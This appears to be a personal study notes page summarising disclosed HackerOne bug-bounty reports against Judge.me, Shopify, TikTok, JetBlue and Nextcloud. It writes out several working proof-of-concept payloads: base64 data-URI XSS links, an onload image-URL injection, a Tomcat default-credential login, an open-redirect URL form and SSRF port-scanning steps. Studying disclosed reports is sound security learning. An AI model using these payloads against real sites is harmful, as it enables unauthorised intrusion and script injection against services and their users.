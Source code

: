 # 😁 02



## 01

### \[Judge.me] Stored XSS in Public Profile Reviews(1398285)

> None - XSS - 250

{% embed url="https://hackerone.com/reports/1398285" %}

The attacker can inject the payload into the shop addition options.

1. go to the user profile
2. click add recommendation, the payload is a link tag: `<a href="data:text/html;charset=utf-7;base64,PHNjcmlwdD5hbGVydCgiWFNTIik8L3NjcmlwdD4=">`Click Here`</a>`

(It seems the base64 encode can bypass the check)

3. click on HTML tag, the XSS will be triggered.

> Test the stored-XSS at the profile page by injecting an URL tag.



### \[Judge.me] Improper Access Control in Ali Express Importer

> Medium - Improper Access Control - 500

{% embed url="https://hackerone.com/reports/1609955" %}

The reporter has reported three kinds of this vulnerability(1450807, 1382652).



### \[Judge.me] Self-XSS due to image URL can be exploited via XSSJacking techniques in review email

> Medium - XSS - 500

{% embed url="https://hackerone.com/reports/1397940" %}

&#x20; 1 . Login and add a new recommendation&#x20;

2. Go back to the recommendation list, click the pencil icon in the image and insert this payload to trigger the Self-XSS:

> [https://secure.gravatar.com/avatar/█████████.png?;'onload=alert(document.domain)>](https://secure.gravatar.com/avatar/%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88.png?;%27onload=alert\(document.domain\)%3E)



## 02&#x20;

### \[Shopify]XSS at jamfpro.shopifycloud.com

> Medium - XSS - 9,400

{% embed url="https://hackerone.com/reports/1444682" %}

* Payload : [https://jamfpro.shopifycloud.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjogImh0dHBzOi8vdGVhcmZ1bC1lYXJ0aC5zdXJnZS5zaC90ZXN0LnlhbWwiLAp9](https://jamfpro.shopifycloud.com/classicapi/doc/?configUrl=data:text/html;base64,ewoidXJsIjogImh0dHBzOi8vdGVhcmZ1bC1lYXJ0aC5zdXJnZS5zaC90ZXN0LnlhbWwiLAp9)





## 03

### \[TikTok] TikTok 2FA Bypass

> Medium - Improper Authorization - 1,565

A vulnerability was found where a user would be able to bypass 2FA if logging in and redirecting back on a UK TikTok Seller URL. We thank [@amans](https://hackerone.com/amans) for reporting this to our team.

{% embed url="https://hackerone.com/reports/1247108" %}

## 05

### \[JetBlue] Access to tomcat-manager with default creds

> High - Imprper Authorization

Apache Tomcat/6.0.35, can login into the [https://██████████/manager/html](https://xn--4zhaaaaaaaaa/manager/html) with default credentials \`tomcat:tomcat\`

{% embed url="https://hackerone.com/reports/1267174" %}

### \[JetBlue] Open Redirection

> Low - Open Redirection

The payload is like this:&#x20;

[https://█████\_https@google.com](https://%E2%96%88%E2%96%88%E2%96%88%E2%96%88%E2%96%88\_https@google.com). we can see the google.com can be injected after the \_https@

{% embed url="https://hackerone.com/reports/1267176" %}

## 06

### \[Nextcloud] Mail app - blind SSRF via imapHost parameter

> Low - SSRF - 150

{% embed url="https://hackerone.com/reports/1736390" %}

There is a Blind SSR vulnerability through the Nextcloud \`Mail\` application.

Using response time as a side effect, we can scan the port whether open on the server.

![](../../.gitbook/assets/image.png)



Response time < 100ms = port closed/no listening on it. Port > 1000ms response, port open, listening with a service on it. Here I will scan my server locally

It is important here to leave the parameter `imapSslMode` on `none` !(idk why)



### \[Nextcloud] Mail app - Blind SSRF via Sierve server founctionnality and sieveHost parameter&#x20;

> Low - SSRF - CVE-2023-23943
>
> [https://hackerone.com/reports/1741525](https://hackerone.com/reports/1741525)

The report is similar to the last. This one touches a new parameter and a different endpoint.

The SSRF is found in the `sieveHost` parameter, and provided that the `sieveSslMode` parameter is set to `none`.





\










